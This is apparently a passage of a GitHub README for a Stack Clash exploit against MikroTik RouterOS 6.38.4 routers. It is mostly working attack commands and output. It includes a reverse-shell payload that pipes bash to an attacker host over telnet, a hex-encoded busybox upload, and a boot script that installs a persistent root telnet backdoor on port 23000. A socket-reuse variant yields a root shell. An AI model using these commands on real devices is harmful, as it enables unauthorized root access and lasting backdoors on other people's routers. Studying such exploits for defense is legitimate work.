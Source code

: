 ### Persistent telnet server  
You can run script at each boot by creating a bash script in `/flash/etc/rc.d/run.d/`.  
Pay attention to set execution permissions, or your router will stuck on boot and you will have to restore the firmware!  
This example enables a persistent telnet server on port 23000.  
In a shell:
```
$ wget https://busybox.net/downloads/binaries/1.28.1-defconfig-multiarch/busybox-mips 
$ { echo "echo Installing..."; hexdump -v -e '"echo -e -n " 1024/1 "\\\\x%02X" " >> /flash/bin/busybox\n"' busybox-mips | sed -e "s/\\\\\\\\x  //g"; echo "chmod 777 /flash/bin/busybox"; echo "/flash/bin/busybox --install -s /flash/bin/"; echo "mkdir -p /flash/etc/rc.d/run.d"; echo 'echo -e "#!/flash/bin/sh\ntelnetd -p 23000 -l sh" > /flash/etc/rc.d/run.d/S89own'; echo "chmod 777 /flash/etc/rc.d/run.d/S89own"; echo "/nova/bin/info '/system reboot'"; echo "echo Done! Rebooting..."; } | nc -l -p 1234
```
In another shell (note that this is the reverse shell command):  
```
$ ./StackClash_mips.py 192.168.8.1 80 www_binary "/bin/mknod /ram/f p; /bin/telnet 192.168.8.5 1234 < /ram/f | /bin/bash > /ram/f"
```
and wait until `Done! Rebooting...` appears.  
Once the router is up again:
```
$ telnet 192.168.8.1 23000
Trying 192.168.8.1...
Connected to 192.168.8.1.
Escape character is '^]'.


MikroTik v6.38.4 (stable)
/ #
```  

## StackClash_resock_mips  
Reuse the http socket to spawn a shell, so you can have a shell without a reverse connection.  
```
$ ./tools/getROSbin.py 6.38.4 mipsbe /nova/bin/www www_binary
$ ./StackClash_resock_mips.py 192.168.8.1 80 www_binary
[...]
sh: turning off NDELAY mode

Got root ;-)

```  
### Upload binaries without a reverse shell
To upload `busybox-mips` in `/ram/busybox`  
```
$ wget https://busybox.net/downloads/binaries/1.28.1-defconfig-multiarch/busybox-mips  
$ ./StackClash_resock_mips.py 192.168.8.1 80 www_mipsbe busybox-mips /ram/busybox   
[...]   
Uploading busybox-mips in /ram/busybox...   
Upload done!
sh: turning off NDELAY mode

Got root ;-)

chmod 777 /ram/busybox
/ram/busybox
BusyBox v1.28.1 (2018-02-15 14:34:02 CET) multi-call binary.
[...]
```
